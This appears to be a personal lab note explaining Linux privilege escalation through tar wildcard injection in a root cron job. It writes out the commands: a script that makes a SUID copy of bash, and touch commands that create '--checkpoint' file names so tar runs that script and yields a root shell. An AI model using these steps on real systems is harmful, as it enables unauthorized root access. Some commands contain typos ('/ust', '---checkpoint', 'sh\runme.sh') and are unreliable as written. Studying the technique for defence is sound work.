 This type of escalation leverages on the wildcards of cron ( `*` ) are used in the wrong way or when an attacker has access to the configuration file of `cron`.



<mark style="background: #BBFABBA6;">In this case we can see that there is a cron with a specific path:</mark>
```bash
cat /etc/crontab
```
- ![[Pasted image 20250117160921.png]]

So let's look at it in order to understand what it does:
```bash
cat /usr/local/bin/compress.sh
```
- ![[Pasted image 20250117161017.png]]


So it creates a `backup` compressed file with the content of `/home/user`.

We can see in it that it uses a wildcard `*`:
- ![[Pasted image 20250117161206.png]]

==**So we can inject this**== `*` **==wildcard.==**


Using:
```bash
ls -la /ust/local/bin/compress.sh
```
- ![[Pasted image 20250117161305.png]]
- we can see that we have only read access to this script and we cannot modify it


# Creating a malicious script to run
So we can create a malicious script:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
```

We make it executable:
```bash
chmod +x runme.sh
```

Since we can make an injection what we can do here is to create checkpoints with:
```bash
touch /home/user/--checkpoint=1

touch /home/user/--checkpoint-action=exec=sh\runme.sh
```


This because the `*` will be read as `---checkpoint=1`
And when this checkpoint is triggered we execute `sh\runme.sh`


At this point the system creates a `/tmp/bash` that gives us the root shell:
```bash
/tmp/bash
```
- ![[Pasted image 20250117162024.png]]

This works because the `tar` command sees the `*` as `--checkpoint`. Since we set the checkpoint in the folder in which is executed the command it will trigger the execution of the checkpoint script.

<mark style="background: #BBFABBA6;">We gain a root shell!</mark>